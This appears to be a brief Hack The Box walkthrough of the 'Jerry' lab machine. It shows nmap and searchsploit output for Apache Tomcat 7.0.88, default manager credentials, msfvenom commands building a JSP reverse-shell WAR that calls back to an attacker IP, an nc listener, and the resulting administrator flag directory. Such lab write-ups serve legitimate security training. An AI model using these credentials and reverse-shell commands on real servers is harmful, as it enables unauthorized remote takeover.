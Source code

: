 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88



![](2021-02-15-15-52-27.png)


kali@kali:~/htb/boxes/jerry/10.10.10.95$ searchsploit tomcat 7.0.88
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------



tomcat:secr3t

http://10.10.10.95:8080/manager

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/


msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=1234 -f war > shell.war
nc -lvp 1234



msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f war > shell.war


![](2021-02-15-16-07-25.png)


c:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of c:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,598,540,800 bytes free
